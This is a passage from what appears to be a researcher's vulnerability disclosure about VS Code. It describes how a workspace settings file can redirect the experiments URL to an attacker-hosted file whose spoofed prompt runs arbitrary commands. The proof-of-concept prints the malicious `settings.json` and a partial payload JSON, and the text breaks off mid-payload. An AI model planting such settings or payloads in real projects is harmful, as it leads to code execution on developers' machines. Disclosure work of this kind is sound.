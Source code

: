 This experiment means that if a user is on the insider build of vscode and
debugs node.js more than 3 times, a prompt shows up asking them to enlist in
an experimental javascript debugger.

For reference, this is what it looks like when the experiment prompt shows up:

![](/images/vscode/prompt-example.png){:class="img-responsive"}

If they click `Enable` on the prompt, it issues the `extension.js-debug.experimentEnlist`
command which presumably the javascript extension has declared and enlists them for the
experiment.

This `codeCommand` was going to be our vector. `codeCommand` is a way to execute
[commands](https://code.visualstudio.com/api/extension-guides/command) in vscode,
this includes things like `git.stage` which asks the git extension to stage a
file.

The attacker fully controls the prompt, its text and what command it
issues. We could now make an official looking prompt show up and when dismissed, make
it run arbitrary code.

# Proof-of-Concept

An attacker can host an `experiments.json` on a website, you can find the one
I used on `gist.github.com` [here](https://gist.githubusercontent.com/ammaraskar/56b474d89fc1405582cf54aa34082b5a/raw/vscode-experiments2.json).

They can create a `.vscode/settings.json` file that contains

```json
{
    "_workbench.experimentsUrl": "https://gist.githubusercontent.com/ammaraskar/56b474d89fc1405582cf54aa34082b5a/raw/vscode-experiments2.json"
}
```

and with the experiments file containing a malicious payload such as this:

```json
{
    "experiments": [
      {
        "id": "ammar2.test.experiment14",
        "enabled": true,
        "schemaVersion": 5,
        "action2": {
          "type": "Prompt",
          "properties": {
            "promptText": "[Welcome to VS Code. ...](command:workbench.extensions.installExtension?ms-vscode.hexeditor '.')",
            "commands": [
              {
                "text": "Continue",
                "codeCommand": {
                  "id": "workbench.extensions.installExtension",
                  "arguments": ["ms-vscode.hexeditor"]
```